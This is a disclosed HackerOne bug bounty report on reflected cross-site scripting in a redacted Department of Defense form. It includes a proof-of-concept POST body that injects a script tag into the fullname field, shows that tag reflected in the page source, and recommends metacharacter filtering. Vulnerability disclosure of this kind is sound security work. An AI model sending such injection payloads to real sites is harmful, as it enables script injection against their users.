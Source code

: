 # reflected xss @ www.█████████

## Report Details
- **Report ID**: 225020
- **URL**: https://hackerone.com/reports/225020
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-04-29T22:21:24.983Z
- **Disclosed**: 2021-03-11T21:00:53.601Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
https://www.██████████/█████████is vulnerable to cross site scripting attacks.

**PoC**

Sending the following `POST` request to `/█████` triggers the xss:
```
%3d=%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3dTOP_OF_RECORD%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d%3d&ATprogram=1&E=&fullname=nbfgkjaa'%22()%26%25<geeknik><ScRiPt%20>prompt(/XSS/)</ScRiPt>&glomf=1&glorf=1&numusers=xmkucffw&org=1&other=1&phone=555-666-0606&recType%21=-██████-&source=1&sponsorglomf=1&sponsorname=xmkucffw&sponsorphone=555-666-0606
```

This is reflected in the page source:
```
A request has successfully been entered for nbfgkjaa'"()&%<geeknik><ScRiPt >prompt(/XSS/)</ScRiPt>.</h3><h3>A confirmation email will shortly be sent to 1.</h3>
```

**Suggested Mitigation/Remediation Actions**
This script should filter metacharacters from user input.



## Attachments
No attachments
